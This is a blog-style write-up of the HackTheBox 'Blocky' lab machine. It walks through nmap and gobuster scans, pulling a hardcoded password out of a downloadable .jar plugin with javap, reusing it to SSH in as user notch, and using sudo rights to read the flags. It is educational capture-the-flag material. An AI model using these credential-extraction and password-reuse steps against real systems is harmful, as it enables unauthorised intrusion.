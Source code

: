 ```yaml
---
layout: post
title: HackTheBox Blocky (10.10.10.37) Writeup
description: >
  Hackthebox Blocky Writeup
image: /assets/img/blocky.png
noindex: false
---
```


<center><h3>Summary</h3></center>

- Get credentials from a .jar file located in the <b>/plugins</b> directory
- Use the password found to ssh in the system as the user notch
- Run <b>sudo -l</b> to see that I can run commands as sudo
<br>

First I start with an nmap scan.
```
# Nmap 7.70 scan initiated Fri May 31 12:13:39 2019 as: nmap -sV -sC -T4 -oN BlockyNmap 10.10.
10.37
Nmap scan report for 10.10.10.37
Host is up (0.036s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 31 12:13:52 2019 -- 1 IP address (1 host up) scanned in 13.20 seconds
```
<br>

I look around and don't find much except for a post made by the user Notch. Next, I decide to run a gobuster
```
gobuster dir -u http://10.10.10.37 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt -t 20
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.37
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2019/09/16 15:04:36 Starting gobuster
===============================================================
/wiki (Status: 301)
/wp-content (Status: 301)
/index.php (Status: 301)
/wp-login.php (Status: 200)
/plugins (Status: 301)
/license.txt (Status: 200)
/wp-includes (Status: 301)
/javascript (Status: 301)
/wp-trackback.php (Status: 200)
```
<br>
Navigating to the <b>/plugins</b> directory, you will see two files. Lets download them both to our host

![files.png](../../resources/b16bd8e7ed044d578db1107f5141d09e.png)

Both of the files are <b>.jar</b> files which means the contents need to be extracted. The command below will list the files inside the <b>.jar</b> file.

```
jar -tf BlockyCore.jar
```
I see that it lists a file

```
META-INF/MANIFEST.MF
com/myfirstplugin/BlockyCore.class
```
Lets extract that specific file.

```
jar xf BlockyCore.jar com/myfirstplugin/BlockyCore.class
```
Now to read the file I need to use the <b>javap</b> command.
```
javap -c com/myfirstplugin/BlockyCore.class
```
You should get the output below. If you read through the file you should see something like resembles credentials.

```
11: ldc           #18                 // String root <-----User
13: putfield      #20                 // Field sqlUser:Ljava/lang/String;
16: aload_0
17: ldc           #22                 // String 8YsqfCTnvxAUeduzjNSXe22 <-----Password
19: putfield      #24                 // Field sqlPass:Ljava/lang/String;
```
<br>
Now first thing I tried was logging into the wordpress site but that didnt work. Next I tried ssh but it didnt work with the user <b>root</b>. I tried to ssh again but this time using the user <b>notch</b> and password <b>8YsqfCTnvxAUeduzjNSXe22</b> and it worked.

```
root@kali: ssh notch@10.10.10.37

The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.
ECDSA key fingerprint is SHA256:lg0igJ5ScjVO6jNwCH/OmEjdeO2+fx+MQhV/ne2i900.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.37' (ECDSA) to the list of known hosts.
notch@10.10.10.37's password:
Ilcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$
```
<br>
Now if I type <b>sudo -l</b> and enter the same password as before then you will see that I have sudo rights which means I can just grab both the user and root flags. The user flag is located at <b>/home/notch/user.txt</b> and the root is at <b>/root.root.txt</b>
<br><br><br>
